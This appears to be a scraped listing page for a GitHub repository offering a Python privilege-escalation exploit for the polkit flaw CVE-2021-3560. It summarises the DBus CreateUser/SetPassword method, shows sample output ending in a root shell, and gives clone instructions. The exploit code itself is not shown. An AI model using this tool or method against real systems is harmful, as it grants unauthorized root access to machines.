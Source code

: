 # Polkit-exploit

Privilege escalation with polkit - CVE-2021-3560

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Almorabea](https://github.com/Almorabea) |
| Url      | [https://github.com/Almorabea/Polkit-exploit](https://github.com/Almorabea/Polkit-exploit)                                               |
| Stars    | 106                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Polkit-exploit - CVE-2021-3560
Privilege escalation with polkit - CVE-2021-3560

# Summary 
CVE-2021-3560 is an authentication bypass on polkit, which allows unprivileged user to call privileged methods using DBus, in this exploit we will call 2 privileged methods provided by accountsservice (CreateUser and SetPassword), which allows us to create a priviliged user then setting a password to it and at the end logging as the created user and then elevate to root.

# Exploit Code Author
Ahmad Almorabea
@almorabea
http://almorabea.net

# Usage
```
test@ubuntu:~/Desktop$ python3 CVE-2021-3560.py 
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original Exploit Author: Kevin Backhouse 
For more details check this: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#history
[+]Starting the Exploit 
[+] User Created with the name of ahmed
[+] Timed out at: 0.008446890996407191
[+] Timed out at: 0.008934336684707084
[+] Exploit Completed, your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 
bash: cannot set terminal process group (46983): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/test/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/test/Desktop# whoami
root
root@ubuntu:/home/test/Desktop#
```

# Demo
GUI Authentication
******
![](CVE-2021-3560-Auth-On.gif)

Terminal Authentication
******
![](CVE-2021-3560-Root.gif)

# Credit
Kevin Backhouse (https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)



## Get the content

```
git clone https://github.com/Almorabea/Polkit-exploit
cd Polkit-exploit
```

{% embed url="https://github.com/Almorabea/Polkit-exploit" %}

<figure><img src="https://avatars.githubusercontent.com/u/13198863?v=4" alt=""><figcaption><p>Almorabea</p></figcaption></figure>
